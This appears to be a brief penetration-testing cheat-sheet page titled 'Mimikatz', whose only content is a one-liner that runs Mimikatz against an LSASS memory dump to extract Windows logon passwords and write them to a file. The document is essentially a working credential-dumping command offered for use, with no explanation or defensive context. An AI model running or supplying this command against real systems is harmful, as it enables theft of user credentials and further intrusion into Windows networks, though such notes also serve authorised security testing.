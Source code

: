 ```yaml
---
title: "Mimikatz"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```


#### Read lsass dump oneliner
```
.\mimikatz.exe "sekurlsa::minidump C:\Temp\lsass.dmp" "sekurlsa::logonpasswords" "exit" | Out-File mimikatz.txt
```
***
